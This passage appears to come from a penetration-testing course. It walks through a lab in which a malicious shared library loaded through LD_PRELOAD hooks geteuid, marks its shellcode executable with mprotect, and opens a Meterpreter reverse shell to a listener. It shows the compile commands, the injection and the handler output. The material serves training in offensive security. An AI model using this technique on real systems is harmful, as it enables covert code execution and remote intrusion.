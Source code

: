 > Listing 66 - Forking the process to get a shell

The code within the _fork_ branch checks that the shellcode resides on an executable memory page before executing it. The reason for this additional step is that the -f PIC compilation flag relocates our shellcode to the library _.data_ section in order to make it position independent. Specifically, the code gets the size of a memory page so it knows how much memory to access. It then changes the page of memory that contains our shellcode and makes it executable using _mprotect_. It does this by setting its access properties to _PROT\_READ_ and _PROT\_EXEC_, which makes our code readable and executable. If changing the memory permissions fails, the program will exit with a return code of "-1".

We'll save our code as evileuid.c and compile and link it as we did in our previous examples.

```
offsec@linuxvictim:~$ gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c

offsec@linuxvictim:~$ gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
```

> Listing 67 - Compiling our library

Now that our library is compiled, let's do a test. After setting up a Meterpreter listener for our shellcode, we'll run cp once without our library and then once with the _LD\_PRELOAD_ environment variable set, hooking the function call.

```
offsec@linuxvictim:~$ cp /etc/passwd /tmp/testpasswd

offsec@linuxvictim:~$ export LD_PRELOAD=/home/offsec/evil_geteuid.so

offsec@linuxvictim:~$ cp /etc/passwd /tmp/testpasswd
HACK: returning from function...
```

> Listing 68 - Executing our payload

It worked! We find in our Metasploit listener that our shell successfully connected.

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.119.120:1337 
[*] Sending stage (3012516 bytes) to 192.168.120.46
[*] Meterpreter session 8 opened (192.168.119.120:1337 -> 192.168.120.46:58114) at 2020-07-28 16:58:40 -0400

meterpreter > getuid
Server username: no-user @ linuxvictim (uid=1000, gid=1000, euid=1000, egid=1000)
```

> Listing 69 - Received a shell

This is a great step, but we're still executing as the _offsec_ user. We haven't elevated our privileges. Let's try that next.

Before continuing, we'll unset _LD\_PRELOAD_ which could have adverse effects on other system actions we'll perform.
